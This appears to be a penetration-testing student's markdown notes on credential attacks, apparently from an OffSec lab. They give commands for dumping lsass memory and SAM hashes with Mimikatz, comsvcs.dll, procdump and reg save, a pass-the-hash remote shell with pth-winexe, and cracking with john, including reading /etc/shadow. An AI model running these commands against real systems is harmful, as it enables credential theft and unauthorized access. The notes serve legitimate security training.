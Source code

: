 

When ID'ing a hash, there are 3 properties to consider:  
• Length  
• Char set used  
• Any special chars used.  
  
  
  
  
[Hashes](Hashes.md)  
  
[Mimikatz](mimikatz.md)  
  
[pth-winexe](pth-winexe.md)

[winexe](winexe.md)
  
  
  
Other hash dumping tools, including **pwdump**, **fgdump**, & **Windows Credential Editor** (**wce**), work well against older Windows os' like Windows XP and Windows Server2003.  


### Finding lsass PID:
```powershell
tasklist /fi "imagename eq lsass.exe"
```


  
### Mimikatz:

```powershell
C:\> C:\Tools\password_attacks\mimikatz.exe  
...  
mimikatz # privilege::debug  
Privilege '20' OK  
  
mimikatz # token::elevate  
Token Id  : 0  
User name :  
SID name  : NT AUTHORITY\SYSTEM  
  
740     {0;000003e7} 1 D 33697 NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Primary  
 -> Impersonated !  
 * Process Token : {0;0002e0fe} 1 F 3790250  corp\offsec  S-1-5-21-3048852426-3234707088-723452474-1103  (12g,24p)  Primary  
 * Thread Token  : {0;000003e7} 1 D 3843007  NT AUTHORITY\SYSTEM  S-1-5-18  (04g,21p)  Impersonation (Delegation)  
  
mimikatz # lsadump::sam  
Domain : CLIENT251  
SysKey : 457154fe3c13064d8ce67ff93a9257cf  
Local SID : S-1-5-21-3426091779-1881636637-1944612440  
SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5  
...  
RID  : 000001f8 (504)  
User : WDAGUtilityAccount  
  Hash NTLM: 0c509cca8bcd12a26acf0d1e508cb028  
  
RID  : 000003e9 (1001)  
User : Offsec  
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```


### comsvcs.dll
```powershell
ps C:\windows\system32> .\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```


### procdump.exe
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```


### reg.exe
```powershell
reg save hklm\sam <directory-to-save>\sam
reg save hklm\system <directory-to-save>\system
```


### Pass the Hash:

Allows an attacker to auth to a remote target by using a valid combo of _username_ and _NTLM/LM hash_ rather than a clear text password.  
- Possible because NTLM/LM password hashes aren't salted & remain static between sessions.  
- Can also use to auth to other systems containing that same user & hash.  
  
  
Use **pth-winexe** from the Passing-The-Hash toolkit (a modified version of **winexe**), which performs auth using the SMB protocol.  
  
To execute an application like cmd on the remote computer using the SMB protocol, admin privileges are required due to auth'ing to the administrative share C$ and subsequent creation of a Windows service.  
  
  
Using the hash we just had dumped from **mimikatz.exe**:  
```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd  
E_md4hash wrapper called.  
HASH PASS: Substituting user supplied NTLM HASH...  
Microsoft Windows [Version 10.0.16299.309]  
(c) 2017 Microsoft Corporation. All rights reserved.  
  
C:\Windows\system32>
```


Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM version 1 or 2 format during the auth process.  

We can capture these hashes using MITM or poisoning attacks & either crack them or relay them.  
  
For example, some apps like IE and Windows Defender use the Web Proxy Auto-Discovery Protocol (WPAD) to detect proxy settings.  

If we are on the local network, we could poison these requests and force NetNTLM auth with a tool like _Responder.py_,  
	which creates a rogue WPAD server designed to exploit this security issue.  
Since poisoning is highly disruptive to other users, tools like Responder.py should never be used in the labs.  
  


### PW Cracking:

Brute forcing w/ [john](Tools.md#John%20the%20Ripper):  
```bash
cat hash.txt  
WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028  
Offsec:2892d26cdf84d7a70e2eb3b9f05c425e  
  
sudo john hash.txt --format=NT  
Using default input encoding: UTF-8  
Rules/masks using ISO-8859-1  
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
```


Linux:  
```bash
sudo unshadow /etc/passwd /etc/shadow > unshadowed.txt  
  
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt unshadowed.txt
```

  
